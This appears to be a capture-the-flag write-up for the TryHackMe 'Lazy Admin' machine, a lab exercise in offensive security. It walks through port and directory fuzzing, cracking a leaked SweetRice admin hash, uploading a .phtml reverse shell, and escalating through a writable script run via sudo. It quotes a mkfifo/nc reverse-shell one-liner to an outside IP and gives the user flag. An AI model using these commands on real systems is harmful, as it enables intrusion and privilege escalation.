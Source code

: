 # Lazy Admin
![tryhackme_logo](https://user-images.githubusercontent.com/83867734/185771149-cb02c6f2-8476-4ab3-a626-cca8db0a08bf.png)

Difficulty: **Easy**

Compromise the machine and read the user.txt and root.txt.

Tags
--
* Fuzzing
* SQL file
* Web Admin Console
* Upload Reverse Shell
* Sudoers

Tools used
--
* nmap
* ffuf

Machines
--
Attacker:
* Name: attacker_machine
* Operating System: Athena OS
* IP Address: 10.18.98.39

Victim:
* Name: victim_machine
* IP Address: 10.10.58.133
* Other information must be gathered during the attack

Phase 1: Enumeration
--
```
sudo nmap -sS -sC -sV 10.10.58.133 -p- -T5 -vvv

<SNIP>
Initiating SYN Stealth Scan at 00:56
Scanning 10.10.58.133 [65535 ports]
Discovered open port 80/tcp on 10.10.58.133
Discovered open port 22/tcp on 10.10.58.133
<SNIP>
```
Let's ffuf:
```
ffuf -u http://10.10.58.133/FFUF -H 'Host: 10.10.58.133' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/2
0100101 Firefox/91.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.
5' -H 'Accept-Encoding: gzip, deflate' -H 'Connection: keep-alive' -H 'Upgrade-Insecure-Requests: 1' -H 'DNT: 1' -H 'Sec-GPC: 1' -w /usr/share/p
ayloads/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt:FFUF

content                 [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 44ms]
```
By visiting the found path, we and in a website. Let's ffuf it too:
```
ffuf -u http://10.10.58.133/content/FFUF -H 'Host: 10.10.58.133' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/2
0100101 Firefox/91.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.
5' -H 'Accept-Encoding: gzip, deflate' -H 'Connection: keep-alive' -H 'Upgrade-Insecure-Requests: 1' -H 'DNT: 1' -H 'Sec-GPC: 1' -w /usr/share/p
ayloads/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt:FFUF

images                  [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 240ms]
js                      [Status: 301, Size: 317, Words: 20, Lines: 10, Duration: 240ms]
inc                     [Status: 301, Size: 318, Words: 20, Lines: 10, Duration: 396ms]
as                      [Status: 301, Size: 317, Words: 20, Lines: 10, Duration: 238ms]
_themes                 [Status: 301, Size: 322, Words: 20, Lines: 10, Duration: 242ms]
attachment              [Status: 301, Size: 325, Words: 20, Lines: 10, Duration: 80ms]
```
If we visit `inc`, we can see a file called `mysql_bakup_20191129023059-1.5.1.sql`. Usually `.sql` files contain a set of SQL commands. If we read its content by `code`, we can see a part with the following string:
```
<SNIP>
14 => 'INSERT INTO `%--%_options` VALUES(\'1\',\'global_setting\',\'a:17:{s:4:\\"name\\";s:25:\\"Lazy Admin&#039;s Website\\";s:6:\\"author\\";s:10:\\"Lazy Admin\\";s:5:\\"title\\";s:0:\\"\\";s:8:\\"keywords\\";s:8:\\"Keywords\\";s:11:\\"description\\";s:11:\\"Description\\";s:5:\\"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\";s:5:\\"close\\";i:1;s:9:\\"close_tip\\";s:454:\\"<p>Welcome to SweetRice - Thank your for install SweetRice as your website management system.</p><h1>This site is building now , please come late.</h1><p>If you are the webmaster,please go to Dashboard -> General -> Website setting </p><p>and uncheck the checkbox \\"Site close\\" to open your website.</p><p>More help at <a href=\\"http://www.basic-cms.org/docs/5-things-need-to-be-done-when-SweetRice-installed/\\">Tip for Basic CMS SweetRice installed</a></p>\\";s:5:\\"cache\\";i:0;s:13:\\"cache_expired\\";i:0;s:10:\\"user_track\\";i:0;s:11:\\"url_rewrite\\";i:0;s:4:\\"logo\\";s:0:\\"\\";s:5:\\"theme\\";s:0:\\"\\";s:4:\\"lang\\";s:9:\\"en-us.php\\";s:11:\\"admin_email\\";N;}\',\'1575023409\');',
<SNIP>
```
So we have a `s:5:\\"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\";`. That password is hashed. If we use CrackStation for cracking it, we get `Password123`. Furthermore `manager` is the related username. We can use this information for accessing to the login page at `as` page.

We get access to an admin dashboard. If we move to Settings -> General pane, we can get the following information:
```
Database : mysql
Database Host : localhost
Database Port : 3306
Database Account : rice
Database Password : randompass
```
There are several footholds for uploading files. After some checks, we noted that uploading a `.php` file by Media Center tab but this kind of file are not uploaded to `attachment` web path. We tried to use a reverse shell with a `.phtml` extension and we have been able to run it.

So, on the reverse shell, we executed:
```
$ script /dev/null -c bash

cat /home/itguy/user.txt
```
Then:
```
cat /home/itguy/backup.pl

#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```
Then:
```
cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
```
Then:
```
ls -la /home/itguy/backup.pl

-rw-r--r-x  1 root  root    47 Nov 29  2019 backup.pl

sudo -l

Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```
Then:
```
ls -la /etc/copy.sh
-rw-r--rwx 1 root root 81 Nov 29  2019 /etc/copy.sh
```
It means we can edit this file and insert any commands we like. And this script can be also run as sudo. Let's add this command to `copy.sh`. We cannot use `nano` and `vim`. But we can use a redirection:
```
echo "cp -rf /root/root.txt /home/itguy/" > /etc/copy.sh
```
Now run `/usr/bin/perl /home/itguy/backup.pl` as sudo and we should get `root.txt` in the `itguy` home folder.


cat user.txt: THM{63e5bce9271952aad1113b6f1ac28a07}